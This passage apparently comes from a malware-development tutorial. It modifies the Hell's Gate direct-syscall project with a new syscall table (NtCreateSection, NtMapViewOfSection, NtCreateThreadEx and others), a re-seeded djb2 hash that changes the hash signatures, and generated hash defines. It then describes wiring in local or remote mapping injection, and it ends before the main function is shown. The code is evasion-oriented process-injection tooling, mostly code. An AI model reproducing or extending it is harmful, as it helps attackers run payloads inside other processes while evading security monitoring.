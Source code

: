 ### **Updating The VX\_TABLE Structure**


```
typedef struct _VX_TABLE {
	VX_TABLE_ENTRY NtCreateSection;
	VX_TABLE_ENTRY NtMapViewOfSection;
	VX_TABLE_ENTRY NtUnmapViewOfSection;
	VX_TABLE_ENTRY NtClose;
	VX_TABLE_ENTRY NtCreateThreadEx;
} VX_TABLE, * PVX_TABLE;

```
### **Updating Seed Value**

A new seed value will be used to replace the [old one](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c#L93) to change the hash values of the syscalls. The djb2 hashing function is updated with the new seed value below.


```
DWORD64 djb2(PBYTE str) {
	DWORD64 dwHash = 0x77347734DEADBEEF; // Old value: 0x7734773477347734
	INT c;

	while (c = *str++)
		dwHash = ((dwHash << 0x5) + dwHash) + c;

	return dwHash;
}

```
The following `printf` statements should be added to a new project to generate the djb2 hash values.


```
printf("#define %s%s 0x%p \n", "NtCreateSection", "_djb2", (DWORD64)djb2("NtCreateSection"));
printf("#define %s%s 0x%p \n", "NtMapViewOfSection", "_djb2", djb2("NtMapViewOfSection"));
printf("#define %s%s 0x%p \n", "NtUnmapViewOfSection", "_djb2", djb2("NtUnmapViewOfSection"));
printf("#define %s%s 0x%p \n", "NtClose", "_djb2", djb2("NtClose"));
printf("#define %s%s 0x%p \n", "NtCreateThreadEx", "_djb2", djb2("NtCreateThreadEx"));

```
Once the values are generated, add them to the start of the Hell's Gate project.


```
#define NtCreateSection_djb2         0x5687F81AC5D1497A#define NtMapViewOfSection_djb2      0x0778E82F702E79D4#define NtUnmapViewOfSection_djb2    0x0BF2A46A27B93797#define NtClose_djb2                 0x0DA4FA80EF5031E7#define NtCreateThreadEx_djb2        0x2786FB7E75145F1A
```
### **Updating The Main Function**

The main function must be updated to use either the `LocalMappingInjectionViaSyscalls` or `RemoteMappingInjectionViaSyscalls` functions instead of the [payload function](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c#L80). The function will use the above-generated hashes as shown below.
